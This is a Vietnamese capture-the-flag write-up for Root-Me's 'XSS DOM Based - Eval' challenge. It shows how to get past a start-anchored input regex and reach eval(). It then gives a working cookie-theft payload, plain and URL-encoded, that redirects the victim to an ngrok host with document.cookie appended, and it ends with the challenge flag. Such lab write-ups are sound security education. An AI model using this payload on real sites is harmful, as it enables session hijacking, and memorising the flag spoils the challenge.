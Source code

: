 # XSS DOM Based - Eval
## Solution
Ban đầu challenge cung cấp cho chúng ta một form như thế này


![image](https://user-images.githubusercontent.com/86184794/159875484-38691ee1-2411-4f5f-b7a2-459ed66443ca.png)


Đây là một chương trình máy tính. Hãy nhập thử một phép tính rồi vào Element trong Devtool để xem sao.

![image](https://user-images.githubusercontent.com/86184794/159875962-096ab8be-85b2-4001-904e-619976faa146.png)

Ở đây ta thấy chương trình sử dụng function eval() để thực hiện các phép tính và render ra kết quả.

Việc sử dụng hàm eval() thường sẽ gây ra một số lỗi XSS và cộng đồng lập trình khuyến cáo là không nên sử dụng.

Nhưng ở đây chương trình sử dụng regex  /^\d+[\+|\-|\*|\/]\d+/ để kiểm tra dữ liệu đầu vào nên em phải tìm cách bypass regex trên. Nhưng với kí tự ^ thì chương trình chỉ kiểm tra phần đầu của chuỗi nhập vào có định dạng vào số + số, số - số, số * số, số / số thôi. Vì thế em sẽ nhập là 1+1, alert(1) thì sẽ bypass được regex. Nhưng regex lại lọc kí tự () nên em sẽ thay là 1+1, alert `1` thì sẽ bypass được.

![image](https://user-images.githubusercontent.com/86184794/159879989-26ec4138-872a-493c-868a-1013d3530c3d.png)

Khi đã bypass được chương trình sẽ thì em sẽ chèn đoạn code vào để lừa lấy cookie của server sau đó gửi về server ảo dưới quyền kiểm soát của em.

Giờ em phải tạo server ảo trong máy kali.

![image](https://user-images.githubusercontent.com/86184794/159881365-241cb8d2-e97d-470a-bafb-e01ab135bd98.png)

Server đang ở localhost port 9999

Sau đó public server lên internet bằng ngrok.

![image](https://user-images.githubusercontent.com/86184794/159881531-6fe6a7ee-551c-4cab-b49c-86c854a780f7.png)


payload để lừa lấy cookie của server.

```
1+1, document.location="http://41da-113-185-75-222.ngrok.io?cookie=" + document.cookie
```
![image](https://user-images.githubusercontent.com/86184794/159884920-9dd93877-f1b9-4549-af84-9b2f2a0fd1a0.png)
Sau khi submit paylooad bên tab main nhưng không có có cookie trả lại nên em thử qua bên tab contact để submit thử.


![image](https://user-images.githubusercontent.com/86184794/159885617-4a8ec7df-d97a-406a-b103-730600ccbb8f.png)

Bên tab contact yêu cầu submit đường link nên cần convert chuỗi payload sang dạng url.

```
1%2B1%2C%20document.location%3D%22http%3A%2F%2F41da-113-185-75-222.ngrok.io%3Fcookie%3D%22%20%2B%20document.cookie
```

Cuối cùng thêm link gốc của challenge thì ta được url hoàn chỉnh như sau.

```
http://challenge01.root-me.org/web-client/ch34/?calculation=1%2B1%2C%20document.location%3D%22http%3A%2F%2F41da-113-185-75-222.ngrok.io%3Fcookie%3D%22%20%2B%20document.cookie
```

Kết quả sau khi submit url.

![image](https://user-images.githubusercontent.com/86184794/159886962-4e1f7685-1729-4321-ab21-d36d17c7704f.png)


Flag: rootme{Eval_Is_DangER0us}
